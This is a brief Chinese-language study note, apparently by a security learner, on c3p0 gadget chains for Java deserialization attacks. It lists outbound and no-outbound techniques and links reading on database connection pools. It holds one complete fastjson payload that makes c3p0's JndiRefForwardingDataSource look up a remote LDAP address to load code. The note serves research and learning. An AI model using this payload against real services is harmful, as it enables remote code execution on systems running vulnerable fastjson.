 # poc
## 出网
c3p0_fastjson
```text
{"@type": "com.mchange.v2.c3p0.JndiRefForwardingDataSource", "jndiName": "ldap://47.95.7.37:1389/Calc", "loginTimeout": 0}
```
c3p0_urlClassLoader
## 不出网
c3p0_fastjson_cc4_temp
c3p0_tomcat

# 学习资源
https://xz.aliyun.com/t/11894#toc-1
## DBCP、c3p0、Druid三大连接池区别
https://www.cnblogs.com/lizm166/p/9804649.html
## 四个主流数据库连接池: C3P0 DBCP Druid HikariCP

# 问题
1 看一看其他数据库连接池的源码

